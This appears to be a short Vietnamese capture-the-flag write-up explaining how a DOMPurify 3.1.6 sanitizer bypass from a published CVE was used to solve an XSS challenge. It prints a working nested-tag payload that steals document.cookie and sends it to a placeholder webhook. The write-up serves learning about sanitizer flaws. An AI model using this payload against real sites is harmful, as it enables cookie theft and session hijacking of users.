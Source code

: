 X Ec Ec
Thử thách này khiến mình cảm thấy khó khăn là bởi vì ban đầu mình cứ nghĩ là nó sẽ thực hiện bypass các thẻ cùng với sự kiện nhưng thực ra không phải
![image](https://github.com/user-attachments/assets/b629dd21-d3d9-40b9-9547-0f189138ffae)

Đối với thử thách này, nó cho biết nó sử dụng dompurify 3.1.6 nên mình  vào https://github.com/cure53/DOMPurify/releases và xem masatokinugawabáo cáo đó. Sau đó, tôi vào đó và xem payload.

Mình phát hiện ra rằng dompurify là một thư viện giúp chặn một số tab hay event có thể xảy ra lỗi XSS, và theo nghiên cứu thì tính năng đã gặp một lỗi xuất hiện trong CVE nó chính là lợi dụng
sự bao bọc của nhiều thẻ và thực hiện việc XSS từ bên trong sẽ vượt qua được vòng lọc của dompurify này:
Sau đây là một ví dụ payload khai thác mà mình đã dùng để vượt qua thử thách :

        <svg>
        <a>
        <foreignobject>
        <a>
        <table>
        <a>
        </table>
        <style><!--</style>
        </svg>
        <a id="-><img src onerror=location.href=YOUR_WEBHOOK+document.cookie>">
ta có thể thấy là payload này thực hiện một số thao tác lồng các thẻ hợp lệ mà dompurify cho phép một cách phức tạp để rồi sau đó thực hiện một thao tác đó là gửi lắng nghe sự kiện onerror
để gửi document.cookie lên webhook của hacker.
Và mình đã thành công khai thác được nó.
        
